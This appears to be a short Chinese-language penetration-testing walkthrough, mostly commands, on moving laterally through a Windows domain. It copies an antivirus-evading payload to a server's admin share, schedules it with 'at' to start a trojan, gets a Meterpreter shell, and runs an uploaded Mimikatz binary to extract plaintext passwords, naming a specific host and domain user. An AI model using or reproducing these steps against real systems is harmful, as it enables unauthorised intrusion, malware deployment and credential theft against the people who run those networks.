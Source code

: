 用net user得知自己主机名，用net view找一个跟自己机器名相近的服务器尝试：

```bash
net use \\PAVMSEP131\s$
copy bat.bat \\PAVMSEP131\c$ #bat.bat为免杀的Payload
net time \\PAVMSEP131 #查看目标主机的时间
at \\PAVMSEP131 16:15:00 c:\bat.bat #设置某事件启动木马
```

启动后发现进入Meterpreter Shell，查看当前用户：

```
getuid
```

如果发现没有System权限，需要利用如Mimikatz等提权。如果目标机为64位，需要将Mimikatz进程迁移到64位程序中才能看到密码明文：

```
upload /home/64.exe c:\
shell 
cd \
64.exe
net user joao.gerino /domain #查看域用户权限
```
